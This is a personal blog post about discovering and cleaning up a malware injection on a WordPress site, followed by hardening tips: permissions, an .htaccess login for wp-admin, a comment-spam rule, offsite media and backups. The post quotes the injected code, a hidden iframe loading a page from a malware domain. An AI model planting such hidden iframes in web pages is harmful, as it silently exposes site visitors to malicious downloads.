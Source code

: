 # Secure your Wordpress, mine was attacked

I woke up today morning to find that my site feed wasn't validating and the XMLRPC was not responding when I tried to update <a href="http://www.red-sweater.com/marsedit/">MarsEdit</a>. Upon doing a quick "View Source" I found a foreign code lodged on top of my site's header. I knew instantly that it shouldn't be there and that something is wrong.

The code was `<iframe src="http://xxxxxyyyyyzzzz.com/3332.htm" style="display:none">`.

Here is a <a href="http://www.malwaredomainlist.com/mdl.php?sort=Date&search=&colsearch=All&ascordesc=DESC&quantity=All&page=0">list of malware sites</a>.

The sane action was to look if it is infecting the whole site or just the Wordpress Install (I'm on Wordpress 2.5.1). After finding it in just the Wordpress powered section of the site, I went ahead and did the following action to remove the code and to prevent further complications to my Wordpress Installation.

PREPARE

* Jot down the list of plugins I need
* Back-up Theme
* Back-up "config.php"
* Back-up and downloaded the Database with <a href="http://www.ilfilosofo.com/blog/wp-db-backup">Wordpress Database Backup</a>
* You should back-up `/wp-content/uploads/` if you use Wordpress to upload your files. (see below how I manage my files)

REFRESH

Then, I re-did the whole Wordpress Installation. However, I wasn't worried because my "uploads" are elsewhere, Database was not infected and is back-up everyday by mailing it to myself and archived instantly with Gmail. Here is what I did

- Delete the whole "wp" folder. Yes, I always make it a point that the whole Wordpress Install files are inside a separate folder.
- Upload a fresh set of Wordpress files onto "w" (you can have any folder you like)
- Upload Plugins
- Upload Theme
- Upload "wp-config.php"

That's it. With a fresh Wordpress Install, the script/code injection is gone and my Wordpress Installation is back to normal.

EXTRA PRECAUTION

I decided to take some extra precaution and secure my Wordpress Installation henceforth. Here are few things I did in addition to installation a fresh new Wordpress Installation.

Take care that none of your folders are public-writa-able

Make sure that none of your folders are Public-Write allowed (CHMOD 777). There are instances when you need to set your folders to Write mode with CHMOD 777 (everybody writes) but remember to set it back to 755 (only owner writes) when not needed or at least CHMOD 775 (owner and group writes).

Restrict access to "wp-admin" with .htaccess

It is pretty easy to drop a .htaccess to your "wp-admin" folder so only you or few of your editors/authors can access that folder. This way, you'll need to use 2 passwords to login to your Wordpress Admin. Anyway, I use Keychain to remember them, so I need to type just once. This is what I have in my .htaccess file;

```shell
AuthUserFile /path-to-file/outside-of-your-site-folder/.htpasswd
AuthName "You need to have an access credential!"
AuthType Basic
require user Brajeshwar
```

You'll need a file .htpasswd which should contain a Username:Password pair. Remember, the password is hashed here and is not what you see. There are lots of .htpasswd password generators. Use one of them;

* <a href="http://www.xs4all.nl/~remcovz/htpasswd.html">XS4All Password Generator</a>
* <a href="http://www.sherylcanter.com/encrypt.php">Username:Password Creator for HTPASSWD</a>
* <a href="http://www.htaccesstools.com/htpasswd-generator/">htpasswd Generator</a>

Note: You can have multiple Username:Password pairs by having as many as you want in separate lines.

Now, drop this .htpasswd file in your "/path-to-file/outside-of-your-site-folder/". See to it that this is not in your site folder (e.g. www, public_html) but outside of that which only you have access and not from the website.

Many Wordpress advocates and experts alike have talked about securing your Wordpress Installation and so I won't go deeper than what I've already written above. It's is your choice, how paranoid you can get. Nonetheless, as we're already here, let me give you another bonus tip.

Prevent comment spam by denying access to no-referrer requests

Add this in your .htaccess Redirect section.

```shell
RewriteEngine On
RewriteBase /
RewriteCond %{REQUEST_METHOD} POST
RewriteCond %{REQUEST_URI} .wp-comments-post\.php*
RewriteCond %{HTTP_REFERER} !.*brajeshwar.com.* [OR]
RewriteCond %{HTTP_USER_AGENT} ^$
RewriteRule ^(.*)$ ^http://wordpress.org/$ [R=301,L]
```

Note: Change that `brajeshwar.com` to your domain.

HOW I MANAGE MY FILES (MEDIA, IMAGES, DOWNLOADS)

As mentioned above, I have my own way of managing files which I felt is effective and easy to move around if I need to change host or any other eventuality may arise.

Separate sub-domain for media files (images, audio, video)

Having these files on a separate sub-domain allows me to move this anywhere I like and just do a DNS-IP Redirect or a CNAME change to have this located anywhere. So, my articles will always point to the sub-domain and thus always works wherever I move the media files (different location or servers). Currently, they are hosted on <a href="http://aws.amazon.com/s3/">Amazon S3</a>. Btw, I'm likely to write an article for <a href="http://labnol.org/">Digital Inspiration</a>, for non-geeks and common-users on how to use Amazon S3 the easy way.

What if you've used /wp-content/uploads/ throughout and you want to change it now?

Easy! In your .htaccess file, add a perma-redirect by adding this code

`RewriteRule ^wp-content/uploads(.*)$ http://media.brajeshwar.com.s3.amazonaws.com$1 [L,R=301]`

This should now perma-redirect all reference to /uploads/ to the corresponding new location.

Backup DB daily or Weekly

If your site is busy and you blog regularly, have a daily backup of your Database mailed to you or use weekly if your site is not that prolific. <a href="http://www.ilfilosofo.com/blog/wp-db-backup">Wordpress Database Backup</a> can email you a back-up daily, weekly or monthly. I've it mailed to my Gmail Account and set a filter in Gmail to Archive it as it arrives.

Wordpress Theme

Of course, as I always use my own theme, I've my local copy and another on my SVN server. So, always have a local copy of your theme.

Wordpress Plugins

Don't even worry about them unless you've written one yourself or have modified one. They're all everywhere or at-least well preserved at <a href="http://wordpress.org/extend/plugins/">Wordpress Plugins</a>.

Keepass

While on the topic of security, let me tell you that I'm a die-hard fan of <a href="/2005/keepass-password-safe/">Keepass</a> and now <a href="http://www.keepassx.org/">KeepassX</a> on the Mac. There is even a <a href="http://keepass.info/">Linux version</a> and the encrypted file which contains your passwords will work on all the Platforms. This makes it easy to have access to the plethora of passwords even when you're away from your Mac and in the wild where Windows is pretty common. At the time of writing this article, I've harvested over 2000+ passwords used on various sites and applications and all have a different password. You can either use a Master Password or even a Key Disc to unlock KeepassX, making it rather secure.

That's pretty much it. Feel free to comment, ask questions and I might be able to discuss further.
